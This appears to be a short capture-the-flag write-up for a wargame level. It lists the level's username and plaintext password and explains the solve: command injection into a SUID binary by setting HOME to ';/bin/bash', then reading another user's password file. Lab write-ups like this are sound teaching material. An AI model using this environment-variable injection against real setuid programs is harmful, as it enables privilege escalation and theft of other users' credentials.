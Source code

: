 # username
aphrodite
# password
HPJVaqRzieKQeyyATsFv
# objective
The user ariadne knows what we keep in our HOME.
# method of solve
The homecontent SUID binary seems to be using the ls command to show us the contents of our home directory. We can OS command inject into the binary by setting a custom HOME environment variable
```
export HOME=';/bin/bash'
./homecontent
cat ariadne_pass.txt
```

